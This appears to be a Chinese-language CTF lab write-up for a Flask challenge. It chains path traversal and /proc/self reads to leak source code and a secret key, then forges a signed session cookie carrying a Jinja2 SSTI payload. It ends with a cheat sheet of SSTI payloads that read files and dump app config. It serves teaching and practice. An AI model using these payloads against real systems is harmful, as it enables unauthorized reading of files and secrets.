 ```yaml
---
Author: SuperJason
Date: 2020-12-18
---
```


## flag
`n1book{afr_3_solved}`

## 思路
1. 访问环境，任意输入ls  
![](./images/afr3-1.png)
2. 网页将我们的输入值ls打印出来，可能存在模板注入  
![](./images/afr3-2.png)
3. 进一步进入article界面，测试flag，模板注入{{1+2}}  
![](./images/afr3-3.png)
![](./images/afr3-5.png)
![](./images/afr3-4.png)
4. 注意到输入为{{1+2}}时给出了路径，开始尝试路径穿越`../../../../../../../etc/passwd`，获得passwd文件值  
![](./images/afr3-6.png)
5. 利用`/proc/self/environ`获取当前程序的环境变量，猜测flag存在于`/home/sssssserver/flag`，但是还是显示无权限  
![](./images/afr3-7.png)
6. 利用`/proc/self/cmdline`获取当前程序命令行记录，发现`python server.py`命令，典型的使用了flask或Django  
![](./images/afr3-8.png)
7. 进一步利用`/proc/self/cwd`获取当前进程目录，通过`/proc/self/cwd/server.py`得到源码[server.py](./scripts/afr3_server.py)。在server.py中提到了`key.py`和`flag.py`，其内容如下。  
- key.py **#!/usr/bin/python key = 'Drmhze6EPcv0fN_81Bj-nA'**
- flag.py 由于server.py对带flag字符的参数过滤，所以没有得到文件内容
8. 通过阅读源码关键部分，如果`session['n1code']`不存在或者`n1code`不在session中，我们填入的表单值会作为`session['n1code']`的值。  
```python
@app.route("/n1page", methods=["GET", "POST"])
def n1page():
    if request.method != "POST":
        return redirect(url_for("index"))
    n1code = request.form.get("n1code") or None 
    if n1code is not None:
        n1code = n1code.replace(".", "").replace(
            "_", "").replace("{", "").replace("}", "")
    if "n1code" not in session or session['n1code'] is None:
        session['n1code'] = n1code
        template = None
    if session['n1code'] is not None:
        template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session[
            'n1code']
        session['n1code'] = None
        return render_template_string(template)
```  

9. 然后下列语句会将`session['n1code']`的值打印出来。  
    重点在于我们需要构造`session['n1code']`，能让`flag.py`的值被打印出来

```python
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```


10. 到这里时借用**Wilson Sumanang, Alexandre ZANNI**大佬的[flask session hack](./scripts/flask_session_cookie_hack.py)脚本。
- 解密代码模式
*python flask_session_cookie_hack.py decode -c {cookie} -s {secert_key}*
- 解密代码详情
python .\flask_session_cookie_hack.py decode -c eyJuMWNvZGUiOm51bGx9.X92dcQ.uupVCl_MiIFwJPSj4hnJTB6D5F4 -s Drmhze6EPcv0fN_81Bj-nA
- 本session的cookie值
![](./images/afr3-9.png)
- 执行解密脚本
![](./images/afr3-10.png)


11. 然后把`{'n1code': None}`换成读文件`flag.py`的代码，加密回去
```{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}```
- 加密代码模式
*python flask_session_cookie_hack.py encode -t {} -s {secert_key}*
- 加密代码详情
*python .\flask_session_cookie_hack.py encode -t "{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}" -s Drmhze6EPcv0fN_81Bj-nA*
![](./images/afr3-11.png)

12. 得到cookie值，修改网页cookie值，在表单填入任意值，完成对`session['n1code']`的修改，使得[server.py](./scripts/afr3_server.py)可以打印出`flag.py`的内容
`eyJuMWNvZGUiOiJ7eycnLl9fY2xhc3NfXy5fX21yb19fWzJdLl9fc3ViY2xhc3Nlc19fKClbNDBdKCdmbGFnLnB5JykucmVhZCgpfX0ifQ.X92fSQ.KKLJgd92Ymr6a29ENijcYidV1Mk`
![](./images/afr3-12.png)
![](./images/afr3-13.png)

13. 获得flag
**n1book{afr_3_solved}**

## 总结
这道题究极费时费力，一个多月前第一次做的时候就不会，现在第二次做也还是不会，不过从当时的半知半解得到flag，到现在基本了解了整道题的原理和考点
- 考察对flask、Django等web框架的cookie、session加解密知识
- 考察`../../../../../`目录穿越
- 考察目录穿越后获取信息的能力
    - `/proc/self/environ` 当前进程环境变量
    - `/proc/self/cmdline` 当前进程命令行，得到`python server.py`命令
    - `/proc/self/cwd` 当前进程工作目录，得到server.py源码，进而找出flask的cookie篡改漏洞。
- 考察SSTI(模板注入)  
  `{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[40](\'flag.py\').read()}}'}`

## SSTI常用命令
- **读取文件内容1，()也可以为''**  
```{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['__builtins__']['open']("/app/server.py").read()}}``` 
- **读取文件内容2**
```{{''.__class__.__mro__[2].__subclasses__()[40]('flag.py').read()}}```
- **获取配置**  
```{{config.items()}}```
- **自身dict**  
```{{self.__dict__}}```
- **获取当前app配置**  
```{{get_flashed_messages.__globals__['current_app'].config}}```
- **__getitem__绕过[]**  
```{{get_flashed_messages.__globals__.__getitem__('current_app').config}}```
- **url_for减少字符长度**  
```{{url_for.__globals__.__getitem__('current_app').config}} ```